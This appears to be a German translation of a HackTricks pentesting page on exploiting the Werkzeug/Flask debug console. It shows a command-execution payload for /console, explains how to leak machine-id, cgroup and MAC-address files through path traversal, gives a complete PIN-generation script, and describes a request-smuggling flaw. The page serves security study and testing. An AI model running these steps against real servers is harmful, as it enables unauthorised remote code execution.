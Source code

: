 # Werkzeug / Flask Debug

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Erhalte die Perspektive eines Hackers auf deine Webanwendungen, Netzwerke und Cloud

**Finde und melde kritische, ausnutzbare Schwachstellen mit echtem Geschäftsauswirkungen.** Nutze unsere 20+ benutzerdefinierten Tools, um die Angriffsfläche zu kartieren, Sicherheitsprobleme zu finden, die dir ermöglichen, Privilegien zu eskalieren, und automatisierte Exploits zu verwenden, um wesentliche Beweise zu sammeln, wodurch deine harte Arbeit in überzeugende Berichte umgewandelt wird.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

Wenn das Debugging aktiv ist, könntest du versuchen, auf `/console` zuzugreifen und RCE zu erlangen.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

Es gibt auch mehrere Exploits im Internet wie [diesen ](https://github.com/its-arun/Werkzeug-Debug-RCE) oder einen in Metasploit.

## Pin Geschützt - Pfad Traversierung

In einigen Fällen wird der **`/console`** Endpunkt durch einen Pin geschützt. Wenn Sie eine **Dateitraversierungsanfälligkeit** haben, können Sie alle notwendigen Informationen leaken, um diesen Pin zu generieren.

### Werkzeug Konsole PIN Exploit

Erzwingen Sie eine Debug-Fehlerseite in der App, um dies zu sehen:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
Eine Nachricht bezüglich des Szenarios "Konsole gesperrt" wird angezeigt, wenn versucht wird, auf die Debug-Schnittstelle von Werkzeug zuzugreifen, was auf die Notwendigkeit eines PINs hinweist, um die Konsole zu entsperren. Es wird vorgeschlagen, den Konsolen-PIN auszunutzen, indem der PIN-Generierungsalgorithmus in der Debug-Initialisierungsdatei von Werkzeug (`__init__.py`) analysiert wird. Der Mechanismus zur PIN-Generierung kann im [**Werkzeug-Quellcode-Repository**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py) studiert werden, es wird jedoch geraten, den tatsächlichen Servercode über eine Dateitraversal-Sicherheitsanfälligkeit zu beschaffen, um mögliche Versionsunterschiede zu vermeiden.

Um den Konsolen-PIN auszunutzen, werden zwei Variablen-Sets benötigt: `probably_public_bits` und `private_bits`:

#### **`probably_public_bits`**

* **`username`**: Bezieht sich auf den Benutzer, der die Flask-Sitzung initiiert hat.
* **`modname`**: Typischerweise als `flask.app` bezeichnet.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Resolviert in der Regel zu **Flask**.
* **`getattr(mod, '__file__', None)`**: Stellt den vollständigen Pfad zu `app.py` im Flask-Verzeichnis dar (z. B. `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Wenn `app.py` nicht zutrifft, **versuchen Sie `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Ruft die MAC-Adresse des aktuellen Geräts ab, wobei `str(uuid.getnode())` sie in ein dezimales Format übersetzt.
* Um **die MAC-Adresse des Servers zu bestimmen**, muss die aktive Netzwerkschnittstelle identifiziert werden, die von der App verwendet wird (z. B. `ens3`). Bei Unsicherheiten **leaken Sie `/proc/net/arp`**, um die Geräte-ID zu finden, und extrahieren Sie dann die MAC-Adresse aus **`/sys/class/net/<device id>/address`**.
*   Die Umwandlung einer hexadezimalen MAC-Adresse in dezimal kann wie folgt durchgeführt werden:

```python
# Beispiel MAC-Adresse: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: Verknüpft Daten aus `/etc/machine-id` oder `/proc/sys/kernel/random/boot_id` mit der ersten Zeile von `/proc/self/cgroup` nach dem letzten Schrägstrich (`/`).

<details>

<summary>Code für `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Nachdem alle notwendigen Daten gesammelt wurden, kann das Exploit-Skript ausgeführt werden, um die Werkzeug-Konsole-PIN zu generieren:

Nachdem alle notwendigen Daten gesammelt wurden, kann das Exploit-Skript ausgeführt werden, um die Werkzeug-Konsole-PIN zu generieren. Das Skript verwendet die zusammengestellten `probably_public_bits` und `private_bits`, um einen Hash zu erstellen, der dann weiterverarbeitet wird, um die endgültige PIN zu erzeugen. Unten steht der Python-Code zur Ausführung dieses Prozesses:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Dieses Skript erzeugt die PIN, indem es die verketteten Bits hasht, spezifische Salze (`cookiesalt` und `pinsalt`) hinzufügt und die Ausgabe formatiert. Es ist wichtig zu beachten, dass die tatsächlichen Werte für `probably_public_bits` und `private_bits` genau vom Zielsystem abgerufen werden müssen, um sicherzustellen, dass die generierte PIN mit der von der Werkzeug-Konsole erwarteten übereinstimmt.

{% hint style="success" %}
Wenn Sie eine **alte Version** von Werkzeug verwenden, versuchen Sie, den **Hash-Algorithmus auf md5** anstelle von sha1 zu ändern.
{% endhint %}

## Werkzeug Unicode-Zeichen

Wie in [**diesem Problem**](https://github.com/pallets/werkzeug/issues/2833) beobachtet, schließt Werkzeug eine Anfrage mit Unicode-Zeichen in den Headern nicht. Und wie in [**diesem Bericht**](https://mizu.re/post/twisty-python) erklärt, kann dies eine CL.0 Request Smuggling-Schwachstelle verursachen.

Das liegt daran, dass es in Werkzeug möglich ist, einige **Unicode**-Zeichen zu senden, was den Server **zum Absturz bringen** kann. Wenn jedoch die HTTP-Verbindung mit dem Header **`Connection: keep-alive`** erstellt wurde, wird der Body der Anfrage nicht gelesen und die Verbindung bleibt offen, sodass der **Body** der Anfrage als **nächste HTTP-Anfrage** behandelt wird.

## Automatisierte Ausnutzung

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## Referenzen

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Erhalten Sie die Perspektive eines Hackers auf Ihre Webanwendungen, Netzwerke und Cloud

**Finden und melden Sie kritische, ausnutzbare Schwachstellen mit echtem Geschäftsauswirkungen.** Verwenden Sie unsere 20+ benutzerdefinierten Tools, um die Angriffsfläche zu kartieren, Sicherheitsprobleme zu finden, die Ihnen ermöglichen, Privilegien zu eskalieren, und automatisierte Exploits zu verwenden, um wesentliche Beweise zu sammeln, die Ihre harte Arbeit in überzeugende Berichte verwandeln.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
